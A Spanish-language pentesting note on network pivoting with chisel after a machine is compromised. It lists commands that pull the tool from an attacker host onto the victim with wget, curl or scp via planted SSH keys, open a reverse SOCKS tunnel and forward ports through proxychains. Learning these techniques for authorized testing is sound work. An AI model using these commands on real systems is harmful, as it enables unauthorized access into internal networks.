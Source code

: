 
Hay que tener en cuenta que el pivoting forma parte de la Post-Explotación, osea que primero hay que conseguir explotar la máquina para poder pivotar a otras máquinas que estén en sus redes internas a las que nosotros como atacante no tenemos acceso.

Desde su [repositorio oficial](https://github.com/jpillora/chisel/releases/tag/v1.8.1) podemos descargar las versiones necesarias, en mi caso descargo todos estos por si acaso a mi Kali:



**-PRIMER TÚNEL

Transferimos el chisel a nuestra máquina víctima a una carpeta con permisos de escritura.

```
python3 -m http.server 80

Y en la máquina víctima usar wget o curl (o descargar con funciones de bash _curl _wget) o usar scp si tiene SSH.

wget http://IPkali/chiselLinux

curl -O https://IPkali/chiselLinux

O desde la máquina atacante usar scp si tenemos credenciales SSH o hemos añadido nuestra public key a la carpeta .ssh de algún usuario en un archivo authorized_keys de la máquina víctima.

scp chiselLinux user@IPobjetivo:/tmp/chisel
```

Lo siguiente que tenemos que hacer es ejecutar el chisel en nuestra máquina atacante en modo *servidor*.

*Con este comando creamos el servidor de chisel que va a realizar remote port forwarding hasta nuestro servidor usando un reverse tunnel.

```
./chiselLinux server --reverse -p 1234
```

*Ahora en la máquina víctima 1 ejecutamos el chisel de la siguiente forma:

Lo ejecutamos en modo cliente para que se conecte a nuestro equipo (IP de atacante:1234), remote port forwarding, socks para traer todos los puertos.

```
./chiselLinux client IPkali:1234 R:socks
```

De ésta forma creamos un proxy de tipo socks5 en nuestra máquina local por el puerto 1080 (por defecto).

![[Pasted image 20230206185947.png]]

Ahora éste proxy lo tenemos que agregar al archivo proxychains.conf (o proxychains4.conf según la versión) hay que ser root para hacerlo.

```
nano /etc/proxychains4.conf
```

![[Pasted image 20230206190145.png]]

Y para acceder a los contenidos del servidor HTTP de la máquina víctima solo hay que usar FoxyProxy y añadir el proxy que acabamos de crear.

*Para crear el túnel socks y además hacer remote port forwarding de algún puerto UDP:

```
./chiselLinux client IPkali:1234 R:socks R:443:10.10.0.130:443/udp
```

De ésta forma convierto mi puerto 443 en el puerto 443 de la máquina víctima 2.

